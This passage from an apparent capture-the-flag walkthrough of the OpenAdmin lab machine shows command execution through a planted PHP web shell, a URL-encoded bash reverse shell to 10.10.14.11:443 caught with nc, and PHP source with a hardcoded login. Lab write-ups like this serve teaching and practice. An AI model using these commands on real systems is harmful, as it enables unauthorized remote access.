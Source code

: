 ```

root@kali# curl http://127.0.0.1:52846/0xdf.php?0xdf=id
uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)

```

To get a shell, I can start `nc` and curl:

```

root@kali# curl 'http://127.0.0.1:52846/0xdf.php?0xdf=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.14.11/443%200%3E%261%27'

```

Shell comes instantly:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.171.
Ncat: Connection from 10.10.10.171:40556.
bash: cannot set terminal process group (1004): Inappropriate ioctl for device
bash: no job control in this shell
joanna@openadmin:/var/www/internal$ id
uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)

```

### Path 2: Log In and SSH

#### Log In and Get Key

The site above required username and password. If I check `index.php`, I can see the hardcoded username and password in the php source:

```

<?php
  $msg = '';
  
  if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
    if ($_POST['username'] == 'joanna' && $_POST['password'] == 'joanna') {
      $_SESSION['username'] = 'joanna';
      header("Location: /main.php");
    } else {             
      $msg = 'Wrong username or password.';
    }
  }
?>

```
